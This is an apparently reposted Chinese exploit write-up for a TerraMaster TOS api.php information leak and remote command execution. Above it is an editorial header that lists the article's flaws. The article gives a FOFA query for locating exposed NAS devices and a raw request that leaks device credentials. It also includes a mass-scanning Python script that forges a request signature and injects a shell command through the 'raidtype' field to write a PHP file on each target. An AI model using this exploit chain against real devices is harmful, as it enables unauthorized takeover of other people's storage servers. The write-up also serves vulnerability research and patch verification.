





# 漏洞复现 TerraMaster TOS api.php 信息泄露和远程命令执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。
- 保留完整原始资产表达式，未把无字段的搜索词猜改成新的 FOFA 条件；待校验字段语法。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 元数据漏两个CVE且FOFA只保留TerraMaster丢header条件
- Python代码整体多余缩进且未标语言
- 检测直接写php文件并未回读证明执行，仅successful不足
- 无超时和裸except吞错误
- 正则强依赖响应转义
- nuclei模板未提供属付费广告非可用附件
- 清公司介绍和营销尾巴

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mSMqHFqBPkx89XZ7VFUkjQ)

**0x01 阅读须知**

**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**

**0x02 漏洞描述**

TerramasterTOS 是中国深圳市图美电子技术（Terramaster）公司的一款基于 Linux 平台的，专用于 erraMaster 云存储 NAS 服务器的操作系统。TerramasterTOS 系统 api.php 存在信息泄露 / 远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限，导致服务器失陷。



**0x03 漏洞复现**

**漏洞影响：TerraMaster TOS < 4.2.31**

**fofa："TerraMaster" && header="TOS"**

1. 使用 POC 查看泄露信息

```http
GET /module/api.php?mobile/webNasIPS HTTP/1.1
Host: 
User-Agent: TNAS
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

```



2. 利用信息泄露 ADDR: PWD:，使用如下脚本进行 vuln.php 写入 phpinfo，得到回显

```python
    import time, requests,re,hashlib,json
    def usage():
        print("""
        用法：python3 TerraMaster TOS 信息泄露漏洞+RCE.py
        前提：在脚本所在文件夹下放入：host.txt  目标
        """)
    def poc_getinfo(target):
        print("[+]正则检测：{}".format(target))
        headers = {"User-Agent": "TNAS"}
        payload = target + "/module/api.php?mobile/webNasIPS"
        try:
            req = requests.get(url=payload, headers=headers).content.decode("utf-8")
            if "successful" in req:
                print("[+]存在信息泄露漏洞：{}".format(payload))
                print('    [-]泄露信息：' + req)
                with open("poc1_vul.txt", "a+", encoding="utf-8") as f:
                    f.write(payload + '\n')
                poc_execute(req,target)
        except:
            pass
    def poc_execute(req,target):
        print("[+]开始进行命令执行检测---")
        req = str(req)
        mac = str(re.findall(r"ADDR:(.*?)\\", req)[0][-6:])
        authorization = re.findall(r"PWD:(.*?)\\", req)[0]
        timestamp = str(int(time.time()))
        signature = hashlib.md5((mac + timestamp).encode("utf-8")).hexdigest()
        data = {"raidtype": ';echo "<?php phpinfo();?>">vuln.php', "diskstring": "XXXX"}
        headers = {"Authorization": authorization, "Signature": signature, "Timestamp": timestamp, "User-Agent": "TNAS"}
        payload = target+ '/module/api.php?mobile/createRaid'
        req2 = requests.post(url=payload,headers=headers,data=data).content.decode("utf-8")
        if "successful" in req2:
            print("[+]命令执行成功，成功写入phpinfo文件，文件地址：{}".format(target+'/module/vuln.php'))
    if __name__ == '__main__':
        usage()
        with open("host.txt", 'r', encoding="utf-8") as f:
            temp = f.readlines()
        for target in temp:  # 此处也可以遍历url文件
            target = target.strip().rstrip("/")
            poc_getinfo(target)

```



3.nuclei 批量验证已发表于知识星球

```
nuclei.exe -t CVE-2022-24989.yaml -l subs.txt -stats

```



**网络安全神兵利器分享**

**网络安全漏洞 N/0day 分享**

 **加入星球请扫描下方二维码，更多精，敬请期待！**

👇👇👇


**0x04 ****公司简介******

江西渝融云安全科技有限公司，2017 年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获 2020 年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党 100 周年活动信息安全应急保障优秀案例等荣誉......

**编制：sm**

**审核：fjh**

**审核：Dog**

****1 个** 1 朵************************** **5 毛钱**

**天天搬砖的小 M**

**能不能吃顿好的**

**就看你们的啦**

********

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
